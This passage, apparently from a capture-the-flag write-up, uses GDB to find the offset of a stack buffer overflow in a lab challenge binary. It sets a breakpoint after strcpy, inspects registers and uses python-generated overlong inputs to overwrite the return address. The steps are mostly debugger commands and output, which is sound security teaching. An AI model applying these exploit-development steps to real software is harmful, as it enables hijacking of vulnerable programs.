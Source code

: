 Set Breakpoint in GDB: We want to break after the strcpy() finishes:
```
(gdb) break *0x00000000004007b8
Breakpoint 1 at 0x4007b8  
```
Run Programm with AAAAAAAAAAA and asdf as parameter

Lets start the program and see where the first parameter is stored. RDI will point to the destination:

```
(gdb) run AAAAAAAAAAA asdf
Starting program: /home/hacker/7380/challenge3_64 AAAAAAAAAAA asdf

Breakpoint 1, 0x00000000004007b8 in handleData ()
(gdb) x/8x $rdi
0x7fffffffe8c0:    0x41414141    0x41414141    0x00414141    0x00007fff
0x7fffffffe8d0:    0xf780a1a8    0x00007fff    0xf7ff79b0    0x00007fff
(gdb) i r rdi
rdi            0x7fffffffe8c0    140737488349376
```
Crash program with 90 x "A"

Re-run the programm with overlong arguments; you see some 0x4141 on the stack (Hex code for A) / nothing to see from B
```
(gdb) run `python -c 'print "A" * 90 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/hacker/7380/challenge3_64 `python -c 'print "A" * 90 + "BBBB"'` test

Breakpoint 1, 0x00000000004007b8 in handleData ()
(gdb) c
Continuing.
You ARE admin!
Be the force with you.

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424141 in ?? ()
```

Crash program with 88 x "A"
```
(gdb) run `python -c 'print "A" * 88 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/hacker/7380/challenge3_64 `python -c 'print "A" * 88 + "BBBB"'` test

Breakpoint 1, 0x00000000004007b8 in handleData ()
(gdb) c
Continuing.
You ARE admin!
Be the force with you.

Program received signal SIGSEGV, Segmentation fault.
0x0000000042424242 in ?? ()
```
Therefore, the offset is 88 bytes.
